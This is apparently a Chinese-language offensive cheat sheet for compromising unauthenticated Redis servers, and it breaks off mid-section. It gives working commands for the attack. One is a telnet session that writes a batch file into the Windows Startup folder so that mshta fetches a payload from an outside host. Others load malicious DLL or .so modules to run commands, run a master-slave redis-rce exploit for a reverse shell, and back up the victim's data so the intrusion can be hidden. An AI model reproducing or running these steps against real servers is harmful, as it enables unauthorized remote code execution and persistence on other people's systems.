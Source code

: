 备份redis
redis-dump-go
备份:
./redis-dump-go -host 192.168.2.233 -output commands > redis.dump


恢复:
redis-cli -h 192.168.2.233 < redis.dump
攻击步骤
准备好dll，使用RedisWriteFile写入
备份Redis: ./redis-dump-go -host 192.168.2.233 -output commands > redis.dump
执行bgsave,获取Shell
恢复Redis: redis-cli -h 192.168.2.233 < redis.dump
### 写启动项
```
root@kali:~# telnet 10.107.11.76 6379
Trying 10.107.11.76...
Connected to 10.107.11.76.
Escape character is '^]'.
config set dir "C://Users//Administrator//AppData//Roaming//Microsoft//Windows//Start Menu//Programs//startup"
+OK
config set dbfilename 1.bat
+OK
config set dbfilename 1.bat
+OK
set x "\r\n\r\nmshta http://10.107.10.77:8080/123\r\n\r\n"
+OK
save
```
## 加载模块执行命令(win+linux)
模块文件需要在redis机器上,(rce目录下已经下载好了)
+ windows
https://github.com/0671/RedisModules-ExecuteCommand-for-Windows
```
127.0.0.1:6379> module load exp.dll
127.0.0.1:6379> exp.e whoami
127.0.0.1:6379> exp.e net user
```
## linux
### 一键反弹shell(基于主从)
+ https://github.com/Ridter/redis-rce
发送poc
```
python .\redis-rce.py -r 192.168.0.10 -L 192.168.0.8 -f .\exp_lin.so -v
```
> i:正向连接
> r:反弹	需要在公网使用nc监听端口

### module load
+ 无损写文件
https://github.com/r35tart/RedisWriteFile
https://github.com/puckiestyle/RedisModules-ExecuteCommand
```
python .\RedisWriteFile.py --rhost=192.168.0.10 --lhost=192.168.0.8  --rpath=/data --rfile=so.so --lfile=exp_lin.so -v
```
+ 执行命令
```
//连接redis
redis-cli.exe -h 192.168.10.10
//读取模块
```